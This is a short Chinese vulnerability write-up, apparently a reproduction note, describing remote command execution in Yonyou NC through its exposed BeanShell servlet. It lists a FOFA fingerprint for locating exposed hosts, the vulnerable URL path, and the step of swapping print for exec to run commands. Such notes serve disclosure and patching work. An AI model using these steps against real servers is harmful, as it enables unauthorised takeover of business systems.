 ## 用友 NC bsh.servlet.BshServlet 远程命令执行漏洞

## 漏洞描述

用友 NC bsh.servlet.BshServlet 存在远程命令执行漏洞，通过BeanShell 执行远程命令获取服务器权限

## 漏洞影响

> 用友NC

## FOFA

> icon_hash="1085941792"

## 漏洞复现

首先访问如下页面：

![](resource/用友NC远程命令执行/1.png)



漏洞URL为：

```
/servlet/~ic/bsh.servlet.BshServlet
```

![](resource/用友NC远程命令执行/2.png)

在该界面只需要把print换成exec函数即可命令执行。